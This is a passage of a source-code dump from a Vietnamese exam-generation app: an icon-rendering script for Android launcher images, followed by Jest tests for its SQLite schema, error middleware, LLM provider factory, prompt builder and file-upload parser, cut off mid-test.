      const c = (x >= 1 && y > 0) ? img[(y - 1) * W + x - 1] : 0;
      let v;
      switch (ft) {
        case 0: v = cur; break;
        case 1: v = cur + a; break;
        case 2: v = cur + b; break;
        case 3: v = cur + ((a + b) >> 1); break;
        case 4: {
          const pp = a + b - c;
          const pa = Math.abs(pp - a), pb = Math.abs(pp - b), pc = Math.abs(pp - c);
          v = cur + (pa <= pb && pa <= pc ? a : pb <= pc ? b : c);
          break;
        }
        default: v = cur;
      }
      img[y * W + x] = v & 255;
    }
  }
  return { W, H, img };
}

// ---------- encode RGBA PNG ----------
const CRC_TABLE = (() => {
  const t = new Int32Array(256);
  for (let n = 0; n < 256; n++) {
    let c = n;
    for (let k = 0; k < 8; k++) c = (c & 1) ? (0xEDB88320 ^ (c >>> 1)) : (c >>> 1);
    t[n] = c;
  }
  return t;
})();
function crc32(buf) {
  let c = ~0;
  for (let i = 0; i < buf.length; i++) c = CRC_TABLE[(c ^ buf[i]) & 0xFF] ^ (c >>> 8);
  return ~c >>> 0;
}
function chunk(type, data) {
  const len = Buffer.alloc(4);
  len.writeUInt32BE(data.length, 0);
  const typeBuf = Buffer.from(type, 'ascii');
  const crcBuf = Buffer.alloc(4);
  crcBuf.writeUInt32BE(crc32(Buffer.concat([typeBuf, data])), 0);
  return Buffer.concat([len, typeBuf, data, crcBuf]);
}
function encodeRGBA(W, H, rgba) {
  const sig = Buffer.from([137, 80, 78, 71, 13, 10, 26, 10]);
  const ihdr = Buffer.alloc(13);
  ihdr.writeUInt32BE(W, 0);
  ihdr.writeUInt32BE(H, 4);
  ihdr[8] = 8; ihdr[9] = 6; ihdr[10] = 0; ihdr[11] = 0; ihdr[12] = 0;
  const stride = W * 4;
  const filtered = Buffer.alloc((stride + 1) * H);
  for (let y = 0; y < H; y++) {
    filtered[y * (stride + 1)] = 0;
    rgba.copy(filtered, y * (stride + 1) + 1, y * stride, y * stride + stride);
  }
  const idat = zlib.deflateSync(filtered, { level: 9 });
  return Buffer.concat([sig, chunk('IHDR', ihdr), chunk('IDAT', idat), chunk('IEND', Buffer.alloc(0))]);
}

// ---------- art sampling ----------
const { W: SW, H: SH, img } = decodeGray(fs.readFileSync(SRC));
// alpha net ve: gray 0 -> 255, gray >=218 -> 0 (bo nen 245 + watermark mo)
function alphaAt(ix, iy) {
  if (ix < 0 || iy < 0 || ix >= SW || iy >= SH) return 0;
  const g = img[iy * SW + ix];
  return g >= 218 ? 0 : Math.min(255, Math.round((218 - g) * 255 / 200));
}
function sampleAlpha(sx, sy) { // bilinear
  const x0 = Math.floor(sx), y0 = Math.floor(sy);
  const fx = sx - x0, fy = sy - y0;
  const a00 = alphaAt(x0, y0), a10 = alphaAt(x0 + 1, y0);
  const a01 = alphaAt(x0, y0 + 1), a11 = alphaAt(x0 + 1, y0 + 1);
  return (a00 * (1 - fx) + a10 * fx) * (1 - fy) + (a01 * (1 - fx) + a11 * fx) * fy;
}

// tam & be rong bbox net ve (do o buoc kiem tra truoc)
const ART_CX = 319.5, ART_CY = 319.5, ART_W = 546;

// mode: 'fg' (nen trong suot, net trang) | 'square' (nen xanh day) | 'round' (dia xanh)
function render(N, frac, mode) {
  const rgba = Buffer.alloc(N * N * 4);
  const scale = frac * N / ART_W;
  const R = N / 2;
  for (let dy = 0; dy < N; dy++) {
    for (let dx = 0; dx < N; dx++) {
      const i = (dy * N + dx) * 4;
      const sx = ART_CX + (dx + 0.5 - N / 2) / scale;
      const sy = ART_CY + (dy + 0.5 - N / 2) / scale;
      const art = sampleAlpha(sx, sy) / 255; // 0..1 do phu net ve

      let br = 0, bg = 0, bb = 0, ba = 0; // nen
      if (mode === 'square') {
        br = BRAND[0]; bg = BRAND[1]; bb = BRAND[2]; ba = 255;
      } else if (mode === 'round') {
        const d = Math.hypot(dx + 0.5 - R, dy + 0.5 - R);
        const cov = Math.max(0, Math.min(1, R - d + 0.5)); // vien mem 1px
        br = BRAND[0]; bg = BRAND[1]; bb = BRAND[2]; ba = Math.round(cov * 255);
      }

      // ve net TRANG len tren nen
      const outA = ba + 255 * art * (1 - ba / 255);
      if (outA <= 0) { rgba[i + 3] = 0; continue; }
      const fgW = 255 * art;
      rgba[i] = Math.round((255 * fgW + br * ba * (1 - art)) / outA);
      rgba[i + 1] = Math.round((255 * fgW + bg * ba * (1 - art)) / outA);
      rgba[i + 2] = Math.round((255 * fgW + bb * ba * (1 - art)) / outA);
      rgba[i + 3] = Math.round(outA);
    }
  }
  return encodeRGBA(N, N, rgba);
}

// ---------- xuat ----------
const DENS = [
  ['mdpi', 48, 108],
  ['hdpi', 72, 162],
  ['xhdpi', 96, 216],
  ['xxhdpi', 144, 324],
  ['xxxhdpi', 192, 432]
];

for (const [d, legacy, fg] of DENS) {
  const dir = path.join(RES, `mipmap-${d}`);
  fs.mkdirSync(dir, { recursive: true });
  fs.writeFileSync(path.join(dir, 'ic_launcher.png'), render(legacy, 0.64, 'square'));
  fs.writeFileSync(path.join(dir, 'ic_launcher_round.png'), render(legacy, 0.58, 'round'));
  fs.writeFileSync(path.join(dir, 'ic_launcher_foreground.png'), render(fg, 0.56, 'fg'));
  console.log(`mipmap-${d}: ${legacy}/${legacy}/${fg}`);
}

// adaptive xml + mau nen
const anydpi = path.join(RES, 'mipmap-anydpi-v26');
fs.mkdirSync(anydpi, { recursive: true });
const adaptiveXml = `<?xml version="1.0" encoding="utf-8"?>
<adaptive-icon xmlns:android="http://schemas.android.com/apk/res/android">
    <background android:drawable="@color/ic_launcher_background" />
    <foreground android:drawable="@mipmap/ic_launcher_foreground" />
    <monochrome android:drawable="@mipmap/ic_launcher_foreground" />
</adaptive-icon>
`;
fs.writeFileSync(path.join(anydpi, 'ic_launcher.xml'), adaptiveXml);
fs.writeFileSync(path.join(anydpi, 'ic_launcher_round.xml'), adaptiveXml);

const valuesDir = path.join(RES, 'values');
fs.mkdirSync(valuesDir, { recursive: true });
fs.writeFileSync(path.join(valuesDir, 'ic_launcher_background.xml'),
  `<?xml version="1.0" encoding="utf-8"?>
<resources>
    <color name="ic_launcher_background">#2563EB</color>
</resources>
`);
console.log('mipmap-anydpi-v26 + values/ic_launcher_background.xml');
console.log('DONE');

```

### FILE: tests/database.test.js

```javascript
process.env.EXAM_DB_PATH = ':memory:';
const { getDb, closeDb } = require('../backend/database');

/**
 * Test truc tiep lop du lieu (schema, rang buoc toan ven) tren SQLite
 * in-memory de khong dung cham file exam.db that va co the chay song song,
 * lap lai (idempotent) trong moi lan CI.
 */
describe('database.js (SQLite schema)', () => {
  afterEach(async () => { await closeDb(); });

  test('TC-DB-01: getDb() tao cac bang cu va them bang template', async () => {
    const db = await getDb();
    const rows = await db.all("SELECT name FROM sqlite_master WHERE type='table' ORDER BY name");
    const tableNames = rows.map(r => r.name).sort();
    expect(tableNames).toEqual([
      'EXAM', 'EXAM_SHARE', 'LLM_MODEL', 'LLM_SETTINGS', 'QUESTION', 'QUESTION_BLOCK', 'QUESTION_OPTION',
      'RESOURCE_DOCUMENT', 'RESOURCE_SECTION', 'SAVED_EXAM', 'SYNC_SETTINGS', 'TEMPLATE', 'TEMPLATE_VERSION'
    ]);
  });

  test('TC-DB-06: SAVED_EXAM co du cot (payload_json NOT NULL, deleted_at nullable, timestamp mac dinh ISO)', async () => {
    const db = await getDb();
    const cols = (await db.all('PRAGMA table_info(SAVED_EXAM)')).reduce((m, c) => (m[c.name] = c, m), {});
    expect(Object.keys(cols).sort()).toEqual([
      'created_at', 'deleted_at', 'duration_minutes', 'exam_id', 'payload_json',
      'school_header', 'subject', 'title', 'updated_at'
    ]);
    expect(cols.payload_json.notnull).toBe(1);

    await db.run(
      `INSERT INTO SAVED_EXAM (exam_id, title, payload_json) VALUES (?, ?, ?)`,
      ['e1', 'De 1', '{"blocks":[]}']
    );
    const row = await db.get('SELECT created_at, updated_at, deleted_at FROM SAVED_EXAM WHERE exam_id = ?', ['e1']);
    expect(row.deleted_at).toBeNull();
    expect(row.created_at).toMatch(/^\d{4}-\d{2}-\d{2}T\d{2}:\d{2}:\d{2}Z$/);
  });

  test('TC-DB-07: SYNC_SETTINGS chi cho phep 1 dong (id = 1)', async () => {
    const db = await getDb();
    await db.run(`INSERT INTO SYNC_SETTINGS (id, github_token) VALUES (1, 'tok')`);
    await expect(
      db.run(`INSERT INTO SYNC_SETTINGS (id, github_token) VALUES (2, 'tok2')`)
    ).rejects.toThrow();
  });

  test('TC-DB-02: getDb() goi nhieu lan tra ve cung 1 instance (singleton)', async () => {
    const db1 = await getDb();
    const db2 = await getDb();
    expect(db1).toBe(db2);
  });

  test('TC-DB-03 [Negative]: khoa ngoai (foreign key) duoc thuc thi - block tro toi exam_id khong ton tai bi tu choi', async () => {
    const db = await getDb();
    await expect(
      db.run(
        `INSERT INTO QUESTION_BLOCK (block_id, exam_id, block_type, sort_order) VALUES (?, ?, ?, ?)`,
        ['b1', 'exam-khong-ton-tai', 'MULTIPLE_CHOICE', 0]
      )
    ).rejects.toThrow();
  });

  test('TC-DB-04 [Negative]: rang buoc CHECK tu choi block_type nam ngoai enum cho phep', async () => {
    const db = await getDb();
    await db.run(`INSERT INTO EXAM (exam_id, title) VALUES (?, ?)`, ['exam-1', 'De thi test']);
    await expect(
      db.run(
        `INSERT INTO QUESTION_BLOCK (block_id, exam_id, block_type, sort_order) VALUES (?, ?, ?, ?)`,
        ['b1', 'exam-1', 'LOAI_KHONG_HOP_LE', 0]
      )
    ).rejects.toThrow();
  });

  test('TC-DB-04b [Negative]: rang buoc CHECK tu choi difficulty_level nam ngoai enum (NB/TH/VD/VDC)', async () => {
    const db = await getDb();
    await db.run(`INSERT INTO EXAM (exam_id, title) VALUES (?, ?)`, ['exam-1', 'De thi test']);
    await db.run(
      `INSERT INTO QUESTION_BLOCK (block_id, exam_id, block_type, sort_order) VALUES (?, ?, ?, ?)`,
      ['b1', 'exam-1', 'MULTIPLE_CHOICE', 0]
    );
    await expect(
      db.run(
        `INSERT INTO QUESTION (question_id, block_id, question_type, content, difficulty_level, sort_order)
         VALUES (?, ?, ?, ?, ?, ?)`,
        ['q1', 'b1', 'MCQ', 'noi dung', 'SIEU_KHO', 0]
      )
    ).rejects.toThrow();
  });

  test('TC-DB-05: closeDb() dong ket noi, lan getDb() ke tiep tao instance moi va DB rong tro lai', async () => {
    const db = await getDb();
    await db.run(`INSERT INTO EXAM (exam_id, title) VALUES (?, ?)`, ['exam-1', 'De thi test']);

    await closeDb();

    const freshDb = await getDb();
    expect(freshDb).not.toBe(db);
    const rows = await freshDb.all('SELECT * FROM EXAM');
    expect(rows).toHaveLength(0); // ':memory:' moi -> du lieu cu khong con
  });
});

```

### FILE: tests/errorHandler.test.js

```javascript
const { errorHandler } = require('../backend/errorHandler');

function mockRes() {
  const res = {};
  res.status = jest.fn().mockReturnValue(res);
  res.json = jest.fn().mockReturnValue(res);
  return res;
}

describe('errorHandler (middleware loi toan cuc)', () => {
  let consoleErrorSpy;
  beforeEach(() => { consoleErrorSpy = jest.spyOn(console, 'error').mockImplementation(() => {}); });
  afterEach(() => { consoleErrorSpy.mockRestore(); });

  test('TC-EH-01: loi body-parser (type=entity.parse.failed) tra ve 400 JSON dong nhat', () => {
    const res = mockRes();
    const err = Object.assign(new Error('Unexpected token'), { type: 'entity.parse.failed' });

    errorHandler(err, {}, res, jest.fn());

    expect(res.status).toHaveBeenCalledWith(400);
    expect(res.json).toHaveBeenCalledWith({ success: false, error: 'Du lieu JSON gui len khong hop le' });
  });

  test('TC-EH-02: SyntaxError co thuoc tinh "body" (dac trung loi parse JSON) cung tra ve 400', () => {
    const res = mockRes();
    const err = Object.assign(new SyntaxError('Unexpected token'), { body: '{ bad' });

    errorHandler(err, {}, res, jest.fn());

    expect(res.status).toHaveBeenCalledWith(400);
  });

  test('TC-EH-03 [Exception]: loi khong xac dinh (loi CSDL, loi runtime...) tra ve 500 JSON chung, khong lam sap server', () => {
    const res = mockRes();
    const err = new Error('SIMULATED_UNEXPECTED_FAILURE');

    expect(() => errorHandler(err, {}, res, jest.fn())).not.toThrow();
    expect(res.status).toHaveBeenCalledWith(500);
    expect(res.json).toHaveBeenCalledWith({ success: false, error: 'Loi may chu noi bo' });
    expect(consoleErrorSpy).toHaveBeenCalledWith(err);
  });
});

```

### FILE: tests/llm/ProviderFactory.test.js

```javascript
const { createProvider } = require('../../backend/llm/ProviderFactory');
const { OpenAIProvider } = require('../../backend/llm/OpenAIProvider');
const { AnthropicProvider } = require('../../backend/llm/AnthropicProvider');
const { GeminiProvider } = require('../../backend/llm/GeminiProvider');
const { LocalGgufProvider } = require('../../backend/llm/LocalGgufProvider');

describe('ProviderFactory.createProvider', () => {
  describe('Happy Path', () => {
    test('TC-PF-01: source_type cloud + provider openai -> OpenAIProvider', () => {
      const provider = createProvider({ source_type: 'cloud', provider: 'openai', model_name: 'gpt-4o-mini' }, 'sk-test');
      expect(provider).toBeInstanceOf(OpenAIProvider);
    });

    test('TC-PF-02: source_type cloud + provider anthropic -> AnthropicProvider', () => {
      const provider = createProvider({ source_type: 'cloud', provider: 'anthropic', model_name: 'claude-x' }, 'sk-ant-test');
      expect(provider).toBeInstanceOf(AnthropicProvider);
    });

    test('TC-PF-03: source_type cloud + provider gemini -> GeminiProvider', () => {
      const provider = createProvider({ source_type: 'cloud', provider: 'gemini', model_name: 'gemini-x' }, 'AIza-test');
      expect(provider).toBeInstanceOf(GeminiProvider);
    });

    test('TC-PF-04: source_type local_gguf -> LocalGgufProvider, khong can apiKey', () => {
      const provider = createProvider({ source_type: 'local_gguf', file_path: '/tmp/model.gguf' });
      expect(provider).toBeInstanceOf(LocalGgufProvider);
      expect(provider.filePath).toBe('/tmp/model.gguf');
    });
  });

  describe('Negative Cases', () => {
    test('TC-PF-05: modelRow null nem loi ro rang', () => {
      expect(() => createProvider(null, 'key')).toThrow(/Khong tim thay model/);
    });

    test('TC-PF-06: source_type cloud thieu apiKey nem loi', () => {
      expect(() => createProvider({ source_type: 'cloud', provider: 'openai', model_name: 'gpt-4o-mini' }, null))
        .toThrow(/Chua cau hinh API key/);
    });

    test('TC-PF-07: provider cloud khong hop le nem loi', () => {
      expect(() => createProvider({ source_type: 'cloud', provider: 'unknown-corp', model_name: 'x' }, 'key'))
        .toThrow(/Provider cloud khong hop le/);
    });

    test('TC-PF-08: source_type local_gguf thieu file_path nem loi', () => {
      expect(() => createProvider({ source_type: 'local_gguf', display_name: 'My Model' }))
        .toThrow(/thieu file_path/);
    });

    test('TC-PF-09: source_type khong hop le nem loi', () => {
      expect(() => createProvider({ source_type: 'ftp' }, 'key')).toThrow(/source_type khong hop le/);
    });
  });
});

```

### FILE: tests/llm/promptBuilder.test.js

```javascript
const { buildPrompt, buildRetryPrompt, extractFormatInstructions } = require('../../backend/llm/promptBuilder');

describe('promptBuilder', () => {
  describe('Happy Path', () => {
    test('TC-PB-01: extractFormatInstructions tra ve doan huong dan chua tu khoa dinh dang cot loi', () => {
      const instructions = extractFormatInstructions();
      expect(instructions).toContain('[CAU_HOI]');
      expect(instructions).toContain('Loai:');
      expect(instructions).toContain('Muc_Do:');
      expect(instructions).not.toContain('(kết thúc PROMPT)');
    });

    test('TC-PB-02: buildPrompt thay the placeholder chu de bang topic truyen vao', () => {
      const prompt = buildPrompt({ topic: 'Toan 10 - Ham so' });
      expect(prompt).toContain('Toan 10 - Ham so');
      expect(prompt).not.toContain('[NHẬP MÔN HỌC/CHỦ ĐỀ Ở ĐÂY]');
    });

    test('TC-PB-03: buildPrompt chen noi dung cac section duoc chon vao phan ngu canh', () => {
      const prompt = buildPrompt({ topic: 'Toan', sectionsContent: ['Noi dung chuong 1', 'Noi dung chuong 2'] });
      expect(prompt).toContain('NGỮ CẢNH THAM KHẢO');
      expect(prompt).toContain('Noi dung chuong 1');
      expect(prompt).toContain('Noi dung chuong 2');
    });

    test('TC-PB-04: buildPrompt liet ke yeu cau so luong cau hoi theo loai va muc do', () => {
      const prompt = buildPrompt({
        topic: 'Toan',
        questionSpec: [{ loai: 'TN', muc_do: 'Nhan_Biet', so_luong: 5 }]
      });
      expect(prompt).toContain('YÊU CẦU SỐ LƯỢNG CÂU HỎI');
      expect(prompt).toContain('5 câu loại "TN", mức độ "Nhan_Biet"');
    });

    test('TC-PB-09: buildPrompt chen yeu cau bo sung cua nguoi dung vao cuoi prompt', () => {
      const prompt = buildPrompt({
        topic: 'Toan',
        extraInstructions: 'Ra de theo phong cach thi THPT Quoc gia'
      });
      expect(prompt).toContain('YÊU CẦU BỔ SUNG TỪ NGƯỜI DÙNG');
      expect(prompt).toContain('Ra de theo phong cach thi THPT Quoc gia');
    });
  });

  describe('Edge Cases', () => {
    test('TC-PB-05: buildPrompt khong co topic van dung placeholder mac dinh, khong nem loi', () => {
      expect(() => buildPrompt({})).not.toThrow();
      expect(buildPrompt({})).toContain('chủ đề chưa được nêu cụ thể');
    });

    test('TC-PB-06: buildPrompt voi sectionsContent rong khong chen khoi ngu canh', () => {
      const prompt = buildPrompt({ topic: 'Toan', sectionsContent: [] });
      expect(prompt).not.toContain('NGỮ CẢNH THAM KHẢO');
    });

    test('TC-PB-07: buildPrompt voi questionSpec rong khong chen khoi yeu cau so luong', () => {
      const prompt = buildPrompt({ topic: 'Toan', questionSpec: [] });
      expect(prompt).not.toContain('YÊU CẦU SỐ LƯỢNG CÂU HỎI');
    });

    test('TC-PB-10: buildPrompt khong co extraInstructions (hoac chi khoang trang) khong chen khoi bo sung', () => {
      expect(buildPrompt({ topic: 'Toan' })).not.toContain('YÊU CẦU BỔ SUNG TỪ NGƯỜI DÙNG');
      expect(buildPrompt({ topic: 'Toan', extraInstructions: '   ' })).not.toContain('YÊU CẦU BỔ SUNG TỪ NGƯỜI DÙNG');
    });

    test('TC-PB-08: buildRetryPrompt noi tiep prompt goc va nhung thong bao loi cu the', () => {
      const original = 'PROMPT GOC';
      const retry = buildRetryPrompt(original, 'Thieu truong De_Bai');
      expect(retry).toContain('PROMPT GOC');
      expect(retry).toContain('Thieu truong De_Bai');
      expect(retry).toContain('SAI ĐỊNH DẠNG');
    });
  });
});

```

### FILE: tests/llm/promptTemplate.test.js

```javascript
const fs = require('fs');
const path = require('path');
const { extractFormatInstructions } = require('../../backend/llm/promptBuilder');
const { EXAM_PROMPT_TEMPLATE, EXAM_PROMPT_EXAMPLE } = require('../../frontend/promptTemplate.js');
const { TextPromptParser } = require('../../backend/parser/TextPromptParser.js');

const TXT = fs.readFileSync(path.join(__dirname, '..', '..', 'Gemini_Prompt_Unified.txt'), 'utf8');

describe('frontend/promptTemplate.js <-> Gemini_Prompt_Unified.txt (dong bo)', () => {
  test('TC-PT-01: EXAM_PROMPT_TEMPLATE trung khop PHAN 2 (chay "npm run gen:prompt" neu that bai)', () => {
    expect(EXAM_PROMPT_TEMPLATE).toBe(extractFormatInstructions());
  });

  test('TC-PT-02: EXAM_PROMPT_EXAMPLE trung khop PHAN 3 (vi du) trong file .txt', () => {
    const example = TXT.slice(TXT.lastIndexOf('=PHAN_1_TRAC_NGHIEM=')).trim();
    expect(EXAM_PROMPT_EXAMPLE).toBe(example);
  });

  test('TC-PT-03: meta-prompt giu du cac moc dinh dang cot loi + placeholder chu de', () => {
    for (const token of ['[CAU_HOI]', '=PHAN_1_TRAC_NGHIEM=', '=PHAN_2_TU_LUAN=',
      'Loai:', 'Muc_Do:', 'De_Bai:', 'Dap_An:', 'Loi_Giai:', 'So_Dong_Nhap:',
      'TN', 'DUNG_SAI', 'DIEN_TU', 'TU_LUAN',
      'Nhan_Biet', 'Thong_Hieu', 'Van_Dung', 'Van_Dung_Cao']) {
      expect(EXAM_PROMPT_TEMPLATE).toContain(token);
    }
    expect(EXAM_PROMPT_TEMPLATE).toContain('[NHẬP MÔN HỌC/CHỦ ĐỀ Ở ĐÂY]');
  });

  test('TC-PT-04: LaTeX trong template khong bi template literal an mat dau "\\"', () => {
    expect(EXAM_PROMPT_TEMPLATE).toContain('\\dfrac');
    expect(EXAM_PROMPT_TEMPLATE).toContain('\\sqrt{');
    expect(EXAM_PROMPT_TEMPLATE).toContain('\\sqrt[3]');
    expect(EXAM_PROMPT_EXAMPLE).toContain('\\sqrt{16}');
    expect(EXAM_PROMPT_TEMPLATE).not.toContain('\f'); // form-feed = dau hieu "\f" bi hieu sai
    expect(EXAM_PROMPT_EXAMPLE).not.toContain('\f');
  });
});

describe('EXAM_PROMPT_EXAMPLE parse duoc (dan thang vao tab "Dan van ban")', () => {
  test('TC-PT-05: parse thanh 2 khoi, du ca 4 loai cau, dap an dung', () => {
    const blocks = new TextPromptParser().parse(EXAM_PROMPT_EXAMPLE);
    expect(blocks).toHaveLength(2);
    expect(blocks[0].block_type).toBe('MULTIPLE_CHOICE');
    expect(blocks[1].block_type).toBe('ESSAY');

    const types = blocks.flatMap(b => b.questions.map(q => q.question_type));
    expect(new Set(types)).toEqual(new Set(['MCQ', 'TRUE_FALSE', 'FILL_BLANK', 'ESSAY']));

    const mcq = blocks[0].questions.find(q => q.question_type === 'MCQ');
    expect(mcq.options).toHaveLength(4);
    expect(mcq.options.filter(o => o.is_correct)).toHaveLength(1);

    const tf = blocks[0].questions.find(q => q.question_type === 'TRUE_FALSE');
    expect(['Dung', 'Sai']).toContain(tf.correct_answer);

    const essay = blocks[1].questions[0];
    expect(essay.draft_lines_count).toBeGreaterThan(0);
  });
});

```

### FILE: tests/parser/FileUploadParser.test.js

```javascript
const { FileUploadParser } = require('../../backend/parser/FileUploadParser.js');
const { Document, Packer, Paragraph } = require('docx');

/**
 * Tao mot tep .docx that (dung chinh thu vien `docx` da dung de XUAT Word)
 * de lam fixture kiem thu cho chieu NHAP Word, thay vi commit file nhi phan
 * vao repo. Moi phan tu trong `lines` la 1 doan van rieng - mammoth se noi
 * lai bang '\n' khi trich xuat raw text.
 */
async function buildDocxFile(lines, filename = 'de.docx') {
  const doc = new Document({ sections: [{ children: lines.map(line => new Paragraph({ text: line })) }] });
  const buffer = await Packer.toBuffer(doc);
  return new File([buffer], filename);
}

describe('FileUploadParser', () => {
  let parser;
  beforeEach(() => { parser = new FileUploadParser(); });

  // ---------------------------------------------------------------------
  // 1. HAPPY PATH
  // ---------------------------------------------------------------------
  describe('Happy Path', () => {
    test('TC-FP-01: JSON dang { blocks: [...] } duoc chap nhan nguyen ven', () => {
      const payload = {
        blocks: [{ block_type: 'MULTIPLE_CHOICE', block_title: 'Phan I', questions: [{ question_type: 'MCQ', content: 'X?', options: [] }] }]
      };
      const result = parser.parse(JSON.stringify(payload), 'de.json');
      expect(result).toEqual(payload.blocks);
    });

    test('TC-FP-02: JSON dang mang block thuan (khong boc trong { blocks })', () => {
      const blocks = [{ block_type: 'ESSAY', block_title: 'Phan II', questions: [{ question_type: 'ESSAY', content: 'Y?' }] }];
      const result = parser.parse(JSON.stringify(blocks), 'de.json');
      expect(result).toEqual(blocks);
    });

    test('TC-FP-03: CSV hop le duoc nhom theo cot "section" thanh cac block', () => {
      const csv = `section,loai,muc_do,de_bai,a,b,c,d,dap_an,loi_giai,so_dong_nhap
Phan I,TN,Nhan_Biet,2+2=?,3,4,5,6,B,vi 2+2=4,
Phan II,TU_LUAN,Van_Dung_Cao,Giai phuong trinh...,,,,,,huong dan giai,8
`;
      const blocks = parser.parse(csv, 'de.csv');
      expect(blocks).toHaveLength(2);
      const mcqBlock = blocks.find(b => b.block_title === 'Phan I');
      const essayBlock = blocks.find(b => b.block_title === 'Phan II');
      expect(mcqBlock.block_type).toBe('MULTIPLE_CHOICE');
      expect(mcqBlock.questions[0].correct_answer).toBe('B');
      expect(essayBlock.block_type).toBe('ESSAY');
      expect(essayBlock.questions[0].draft_lines_count).toBe(8);
    });

    test('TC-FP-04b: CSV voi dong DUNG_SAI va DIEN_TU duoc parse dung question_type', () => {
      const csv = `section,loai,muc_do,de_bai,dap_an\nP,DUNG_SAI,Nhan_Biet,So 4 la so chan?,Dung\nP,DIEN_TU,Nhan_Biet,Thu do VN la?,Ha Noi\n`;
      const [block] = parser.parse(csv, 'de.csv');
      expect(block.questions[0].question_type).toBe('TRUE_FALSE');
      expect(block.questions[0].correct_answer).toBe('Dung');
      expect(block.questions[1].question_type).toBe('FILL_BLANK');
      expect(block.questions[1].correct_answer).toBe('Ha Noi');
    });

    test('TC-FP-04: file .txt duoc uy quyen cho TextPromptParser', () => {
      const raw = `===P===
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: 1+1=?
A. 1
B. 2
Dap_An: B
`;
      const blocks = parser.parse(raw, 'de.txt');
      expect(blocks[0].questions[0].correct_answer).toBe('B');
    });
  });

  // ---------------------------------------------------------------------
  // 2. EDGE CASES
  // ---------------------------------------------------------------------
  describe('Edge Cases', () => {
    test('TC-FP-05: CSV MCQ chi co 3 lua chon (khong co cot d) van hop le', () => {
      const csv = `section,loai,muc_do,de_bai,a,b,c,dap_an\nP,TN,Nhan_Biet,abc,1,2,3,C\n`;
      const blocks = parser.parse(csv, 'de.csv');
      expect(blocks[0].questions[0].options).toHaveLength(3);
    });

    test('TC-FP-06: dong CSV thieu gia tri "section" duoc gom vao block mac dinh "Cau hoi"', () => {
      const csv = `section,loai,muc_do,de_bai,a,b,dap_an\n,TN,Nhan_Biet,abc,1,2,A\n`;
      const blocks = parser.parse(csv, 'de.csv');
      expect(blocks[0].block_title).toBe('Cau hoi');
    });

    test('TC-FP-07: truong CSV co dau phay ben trong duoc bao boc bang dau ngoac kep', () => {
      const csv = `section,loai,muc_do,de_bai,a,b,dap_an\nP,TN,Nhan_Biet,"Ha Noi, Viet Nam o dau?",Chau A,Chau Au,A\n`;
      const blocks = parser.parse(csv, 'de.csv');
      expect(blocks[0].questions[0].content).toBe('Ha Noi, Viet Nam o dau?');
    });

    test('TC-FP-08: dau ngoac kep duoc escape ("") ben trong truong duoc giai ma dung', () => {
      const csv = `section,loai,muc_do,de_bai,a,b,dap_an\nP,TN,Nhan_Biet,"No noi ""xin chao""",A,B,A\n`;
      const blocks = parser.parse(csv, 'de.csv');
      expect(blocks[0].questions[0].content).toBe('No noi "xin chao"');
    });

    test('TC-FP-09: phan mo rong tep viet hoa (.CSV) van duoc nhan dien dung', () => {
      const csv = `section,loai,muc_do,de_bai,a,b,dap_an\nP,TN,Nhan_Biet,abc,1,2,A\n`;
      const blocks = parser.parse(csv, 'DATA.CSV');
      expect(blocks).toHaveLength(1);
    });

    test('TC-FP-10: dong trong trong CSV duoc bo qua, khong tao ra block rong', () => {
      const csv = `section,loai,muc_do,de_bai,a,b,dap_an\nP,TN,Nhan_Biet,abc,1,2,A\n\n\n`;
      const blocks = parser.parse(csv, 'de.csv');
      expect(blocks[0].questions).toHaveLength(1);
    });
  });

  // ---------------------------------------------------------------------
  // 3. NEGATIVE CASES
  // ---------------------------------------------------------------------
  describe('Negative Cases', () => {
    test('TC-FP-11: JSON co loi cu phap nem loi ro rang', () => {
      expect(() => parser.parse('{ invalid json', 'de.json')).toThrow(/Tep JSON khong hop le/);
    });

    test('TC-FP-12: JSON thieu mang "blocks" nem loi', () => {
      expect(() => parser.parse(JSON.stringify({}), 'de.json')).toThrow(/phai chua mang "blocks"/);
      expect(() => parser.parse(JSON.stringify({ blocks: 'not-an-array' }), 'de.json')).toThrow(/phai chua mang "blocks"/);
    });

    test('TC-FP-13: block JSON thieu block_type hoac questions nem loi kem chi so khoi', () => {
      const payload = { blocks: [{ block_title: 'X' }] };
      expect(() => parser.parse(JSON.stringify(payload), 'de.json')).toThrow(/Khoi 1.*block_type/);
    });

    test('TC-FP-14: CSV thieu cot bat buoc (vi du "de_bai") nem loi liet ke cot yeu cau', () => {
      const csv = `section,loai,muc_do,a,b,dap_an\nP,TN,Nhan_Biet,1,2,A\n`;
      expect(() => parser.parse(csv, 'de.csv')).toThrow(/de_bai/);
    });

    test('TC-FP-15: CSV co gia tri "loai" khong hop le nem loi kem so dong', () => {
      const csv = `section,loai,muc_do,de_bai,dap_an\nP,SAI_LOAI,Nhan_Biet,abc,A\n`;
      expect(() => parser.parse(csv, 'de.csv')).toThrow(/Dong 2.*loai/);
    });

    test('TC-FP-16: CSV MCQ co dap_an khong khop lua chon nao nem loi', () => {
      const csv = `section,loai,muc_do,de_bai,a,b,dap_an\nP,TN,Nhan_Biet,abc,1,2,Z\n`;
      expect(() => parser.parse(csv, 'de.csv')).toThrow(/khong khop/);
    });

    test('TC-FP-16b: CSV DUNG_SAI voi dap_an khac "Dung"/"Sai" nem loi', () => {
      const csv = `section,loai,muc_do,de_bai,dap_an\nP,DUNG_SAI,Nhan_Biet,abc,Maybe\n`;
      expect(() => parser.parse(csv, 'de.csv')).toThrow(/Dung.*Sai/);
    });

    test('TC-FP-16c: CSV DIEN_TU thieu dap_an nem loi', () => {
      const csv = `section,loai,muc_do,de_bai,dap_an\nP,DIEN_TU,Nhan_Biet,abc,\n`;
      expect(() => parser.parse(csv, 'de.csv')).toThrow(/thieu "dap_an"/);
    });

    test('TC-FP-17: dinh dang tep khong ho tro (.xlsx, .pdf, .docx) bi tu choi', () => {
      expect(() => parser.parse('data', 'de.xlsx')).toThrow(/khong duoc ho tro/);
      expect(() => parser.parse('data', 'de.pdf')).toThrow(/khong duoc ho tro/);
      expect(() => parser.parse('data', 'de.docx')).toThrow(/khong duoc ho tro/);
    });

    test('TC-FP-18: CSV chi co dong tieu de, khong co du lieu nem loi', () => {
      const csv = `section,loai,muc_do,de_bai,a,b,dap_an\n`;
      expect(() => parser.parse(csv, 'de.csv')).toThrow(/dong tieu de va it nhat 1 dong du lieu/);
    });
  });

  // ---------------------------------------------------------------------
  // 4. EXCEPTION / ERROR HANDLING
  // ---------------------------------------------------------------------
  describe('Exception Handling', () => {
